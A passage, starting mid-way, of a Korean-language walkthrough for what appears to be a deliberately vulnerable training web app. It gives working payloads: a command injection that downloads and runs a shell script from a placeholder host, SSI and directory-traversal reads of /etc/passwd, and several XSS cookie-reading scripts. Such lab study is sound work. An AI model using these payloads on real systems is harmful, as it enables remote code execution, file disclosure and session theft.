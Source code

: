      google.co.kr; wget http://<your_host>/<your_path>/hack.sh -O /tmp/hack.sh; sh /tmp/hack.sh
     ```
     결과로 /tmp/hack.sh, /tmp/hack.log 파일이 웹서비스의 ID인 `www-data` 권한으로 생성되었음을 확인할 수 있다.

## [A1] Server-Side Includes (SSI) Injection
  1. First name을 입력한 후, Last name에 아래 예와 같이 입력한다. (First/Last 내용을 바꾸어도 됨)
     ```xml
     <!--#exec cmd="cat /etc/passwd" -->
     ```
     결과로 서버의 `/etc/passwd` 파일 내용이 출력된다.

## [A7] Directory Traversal - Files
  1. URI 정보를 보면, `page=message.txt` 내용이 들어있다.
  1. 따라서 URI 정보에서 `page=/etc/passwd` 예와 같이 보려는 파일 경로로 대체하면 해당 파일의 내용이 출력된다. 단, www-data 유저의 권한이 없는 파일은 보여지지 않는다.

## [A3] XSS - Reflected (GET)
  1. 이름을 입력하고 테스트해 보면, URI 정보에 GET 방식으로 `firstname`, `lastname` 값이 넘어감을 알 수 있다.
  1. 이름에 아래 예와 같이 입력하면 해당 스크립트가 실행되고 사용자의 쿠키 정보를 출력한다.
     ```xml
     <script>alert(document.cookie)</script>
     ```
  1. `[A1] SQL Injection - Stored (Blog)` 페이지로 이동한 후, 블로그에 아래 내용을 입력하여 글을 올리면 해당 사용자의 쿠기 정보가 출력된다.
     ```html
     hacked<script>alert(document.cookie)</script>
     ```

## [A3] XSS - Reflected (JSON)
  1. 영화 검색을 해보면 URI 정보에 `title` 값으로 넘어감을 알 수 있다.
  1. 없는 영화를 검색하면 "`검색한 이름`??? Sorry, we don't have that movie :("와 같이 출력된다. 브라우저에서 페이지 소스를 보면 해당 JSON 문자열의 맨 끝이 `"}]}';`임을 확인할 수 있다.
  1. 아래 예와 같은 내용으로 검색하면 사용자의 쿠기 정보가 출력된다.
     ```html
     "}]}';</script><script>alert(document.cookie)</script>
     ```

## [A3] XSS - Reflected (Referer)
  1. Referer는 방문자가 어떤 경로로 자신의 사이트에 접속했는지를 얻을 수 있는 정보이다.
  1. Burp Suite로 캡쳐하면, `Referer` 정보가 보이는데, 이 부분을 아래 예와 같이 스크립트로 대체한 후, Forward 버튼을 누른다.
     ```xml
     Referer: <script>alert(document.cookie)</script>
     ```
     결과로 사용자의 쿠키 정보가 출력된다.

## [A3] XSS - Stored (Cookies)
  1. 장르를 선택한 후 테스트해 보면, GET 방식으로 `genre` 필드가 넘어감을 알 수 있다.
  1. Burp Suite로 확인해 보면, `Cookie` 값 중에 `movie_genre`가 세팅됨을 확인할 수 있다.
  1. GET 메소드와 Cookie 정보에서 기존 장르 문자열을 아래와 같은 스크립트를 대체한 후, Forward 시킨다. (쿠키에 스크립트를 inject 시킨 것임)
     ```xml
     <script>alert(document.cookie)</script>
     ```
  1. 이후 `[A2] Session Mgmt. - Cookies (Secure)` 페이지로 이동한 후 `Cookies` 버튼을 누르면, `movie_genre` 내용은 비어있고 사용자의 쿠키 정보가 출력된다.
